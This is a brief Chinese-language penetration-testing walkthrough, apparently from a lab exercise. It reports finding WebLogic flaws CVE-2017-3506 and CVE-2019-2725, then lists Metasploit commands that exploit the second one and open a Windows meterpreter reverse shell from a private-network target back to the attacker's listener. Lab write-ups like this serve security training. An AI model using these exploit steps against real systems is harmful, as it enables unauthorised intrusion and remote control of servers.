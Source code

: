 ![img](assets/1660209064832-09f90645-51f4-4fd3-a58a-fe8d22c914aa.png)

探测发现存在两个可用漏洞：CVE-2017-3506、CVE-2019-2725

选择其中一个，进入msf查找模块

search CVE-2019-2725

![img](assets/1660209917584-db3b069a-ef82-4c41-a8ab-c97234593e62.png)

use exploit/multi/misc/weblogic_deserialize_asyncresponseservice 

set target Windows 

set payload windows/x64/meterpreter/reverse_tcp 

set rhosts 192.168.130.80 

set lhost 192.168.130.130

run
